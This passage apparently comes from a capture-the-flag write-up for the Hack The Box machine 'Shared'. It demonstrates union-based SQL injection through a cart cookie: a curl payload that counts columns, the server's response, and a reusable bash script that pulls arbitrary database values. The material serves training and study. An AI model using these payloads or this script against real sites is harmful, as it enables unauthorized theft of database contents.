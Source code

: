 The false query returns "Not Found" and zero values for the quantity and price while the true query returns a product entry. This is definitely enough evidence of an SQL injection vulnerability to begin exploitation.

## Web Exploitation

We have already determined that boolean-based blind SQL injection is possible with the true and false queries, but there is a good chance we can use `UNION SELECT` queries to exfiltrate database values without having to use a side-channel.

### Union Query Exfiltration

Let's first find the number of columns in the original query so we can match it in our `UNION SELECT` extension.

```bash
payload=$(./makepayload.py "' UNION SELECT 'c0lumn1','c0lumn2','c0lumn3'#")

curl -k -s "https://checkout.shared.htb" -b "custom_cart=$payload" | \
	sed 's/^ *//' |
	egrep '</?td>'
```
{:.nolineno}
```html
<td>c0lumn2</td>
<td>1</td>
<td>$</td>
```
{:.nolineno}

Notice how the response contains the value we sent in the second column. This means we can extract data through the second column. Now let's create a script to get any raw value from the database.

```bash
#!/bin/bash

[ -z "$SELECT" ] && echo "SELECT=* FROM=* WHERE=* $0" && exit

payload="' UNION SELECT '',$SELECT,''"

[ -z "$FROM" ] || payload="$payload FROM $FROM"
[ -z "$WHERE" ] || payload="$payload WHERE $WHERE" 

echo $payload

payload=$(./makepayload.py "$payload#")

curl -k -s "https://checkout.shared.htb" -b "custom_cart=$payload" |
	egrep '</?td>' |
	head -1 |
	sed -E 's/^ *<td>(.*)<\/td>$/\1/'
```
{:file="sqli.sh"}
